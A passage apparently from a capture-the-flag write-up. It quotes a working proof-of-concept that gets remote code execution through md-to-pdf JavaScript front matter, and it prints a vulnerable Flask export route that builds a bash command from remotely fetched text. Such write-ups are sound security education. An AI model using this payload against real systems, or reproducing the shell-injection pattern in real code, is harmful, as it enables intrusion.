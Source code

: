 There's a payload an attacker can put in the passed in markdown that
will result in RCE.

The site itself actually displayed a payload that doesn't quite work,
but going into the GitHub repo for the project, there's an [issue for
the bug](https://github.com/simonhaenisch/md-to-pdf/issues/99), with a
nice working POC:



    const { mdToPdf } = require('md-to-pdf');

    var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';

    (async () => {
            await mdToPdf({ content: payload }, { dest: './output.pdf' });
    })();



#### Shell

I'm concerned about putting my input into the DB and getting it back out
again, so I'll start with the remote export. The code looks like:



    # Export remote
    @app.route('/export_note_remote', methods=['POST'])
    @is_logged_in
    def export_note_remote():
        if check_VIP(session['username']):
            try:
                url = request.form['url']

                status, error = parse_url(url)

                if (status is True) and (error is None):
                    try:
                        r = pyrequest.get(url,allow_redirects=True)
                        rand_int = random.randint(1,10000)
                        command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                        subprocess.run(command, shell=True, executable="/bin/bash")

                        if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):

                            return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)

                        else:
                            return render_template('export_note.md', error="Error occurred while exporting the !")

                    except Exception as e:
                        return render_template('export_note.md', error="Error occurred!")


                else:
                    return render_template('export_note.md', error=f"Error occurred while exporting ! ({error})")

            except Exception as e:
                return render_template('export_note.md', error=f"Error occurred while exporting ! ({e})")
